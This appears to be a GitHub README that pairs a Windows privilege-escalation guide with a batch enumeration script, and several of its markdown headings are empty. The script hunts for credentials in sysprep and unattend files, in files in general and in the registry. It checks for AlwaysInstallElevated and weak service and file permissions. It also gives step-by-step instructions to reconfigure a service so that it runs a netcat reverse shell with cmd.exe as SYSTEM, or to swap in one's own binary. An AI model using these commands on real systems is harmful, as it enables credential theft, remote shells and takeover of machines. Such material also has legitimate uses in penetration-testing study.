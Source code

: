 # Windows Privilege Escalation Guide

Step-by-step guide to Windows privilege escalation.

### 1. SYSTEM INFORMATION + ACCOUNTS

```bash
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```vb
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano        
```

### 3. WINDOWS TASKS

### 4. QUICK WINS

### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

echo ################################################################ 
echo PART 2: ENUMERATE NETWORKING
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> INTERFACES
ipconfig /all

echo >>>>>>>>>>>>>>>>>>>> ROUTING TABLE
route print

echo >>>>>>>>>>>>>>>>>>>> ARP CACHE TABLE
arp -A

echo >>>>>>>>>>>>>>>>>>>> ACTIVE CONNECTIONS + FIREWALL RULES
netstat -ano
netsh firewall show state
netsh firewall show config

echo ################################################################
echo PART 3: ENUMERATE WINDOWS TASKS                        
echo ################################################################
echo NOTE: TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.

echo >>>>>>>>>>>>>>>>>>>> SCHEDULED TASKS (VERBOSE)
schtasks /query /fo LIST /v

echo >>>>>>>>>>>>>>>>>>>> RUNNING PROCESSES / ASSOCIATED SERVICES
tasklist /SVC

echo >>>>>>>>>>>>>>>>>>>> STARTED WINDOWS SERVICES
net start

echo >>>>>>>>>>>>>>>>>>>> 3RD-PARTY DRIVERS
driverquery

echo ################################################################
echo PART 4: QUICK WINS
echo ################################################################

echo >>>>>>>>>>>>>>>>>>>> USER IS AN ADMINISTRATOR
echo NOTE: If your user is part of the "Administrators" group, you can easily get to SYSTEM by reconfiguring a service or creating a scheduled task with SYSTEM privs.
net user %username%

echo >>>>>>>>>>>>>>>>>>>> MISSING WINDOWS PATCHES
echo NOTE: WMIC is mostly not available to non-Administrators.
echo (1) Find Windows privesc exploits.
echo (2) Grep for their existence (using KB numbers) among the list of installed patches.
echo (3) See if any exploits are missing from the patch list.
echo (4) Use exploits and profit.

wmic qfe get Caption,Description,HotFixID,InstalledOn

echo >>>>>>>>>>>>>>>>>>>> HARDCODED CREDENTIALS IN CONFIGURATION FILES
type C:\sysprep.inf
type C:\sysprep\sysprep.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x2
dir /s *pass* == *cred* == *vnc* == *.config*

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x3 (.xml .ini .txt)
findstr /si password *.xml *.ini *.txt

echo >>>>>>>>>>>>>>>>>>>> MORE HARDCODED CREDENTIALS x4 (in registry)
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

echo >>>>>>>>>>>>>>>>>>>> "AlwaysInstallElevated" SETTING
echo This setting allows users of any priv to install .msi files as SYSTEM.
echo Both values need to = 1 to exploit this.

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

echo ################################################################
echo PART 5: DEEP-DIVE WINDOWS SERVICES, FILE/FOLDER PERMISSIONS
echo ################################################################

echo NOTE: FOR RESTARTING SERVICES OR BINARIES, TRY VARIOUS METHODS SUCH AS:
echo => net start
echo => sc start
echo => mysql> RESTART; (using service commands to restart)

echo >>>>>>>>>>>>>>>>>>>> WINDOWS SERVICES (MANUAL ENUM)
echo (1) Query windows service
echo CMD: sc qc [servicename]
echo (2) Check required privilege level for each service using accesschk.exe
echo CMD: accesschk.exe -ucqv UPNPHOST
echo (3) Find services which allow access for "Authenticated Users" (logged-in users). Also check which group your user belongs to.
echo CMD: accesschk.exe -uwcqv "Authenticated Users" *
echo (4) Re-configure services to execute a root-shell.
echo STEP 1: Change binary path to execute a reverse-shell
echo CMD: sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
echo STEP 2: Change password for service
echo CMD: sc config upnphost obj= ".\LocalSystem" password= ""
echo STEP 3: Start the service and execute your reverse-shell
echo CMD: net start upnphost

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

echo >>>>>>>>>>>>>>>>>>>> FILE AND FOLDER PERMISSIONS

echo (1) Check for weak permissions "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>".
echo CMD: icacls [file or folder path] | cacls [file or folder path] | accesschk.exe -dqv [file or folder path]
echo (2) For binaries that load with SYSTEM privileges, replace with your own binary.

echo Finding all weak folder permissions per drive
accesschk.exe -uwdqs Users c:\ /accepteula
accesschk.exe -uwdqs "Authenticated Users" c:\

echo Finding all weak file permissions per drive
accesschk.exe -uwqs Users c:\*.* /accepteula
accesschk.exe -uwqs "Authenticated Users" c:\*.*

echo >>>>>>>>>>>>>>>>>>>> CHECK PATH SYSTEM VARIABLE (MANUAL ENUM)
echo NOTE: All non-default directories in root "C:\" will give WRITE access to the Authenticated Users group!!!

echo Look for non-default dirs: %path%

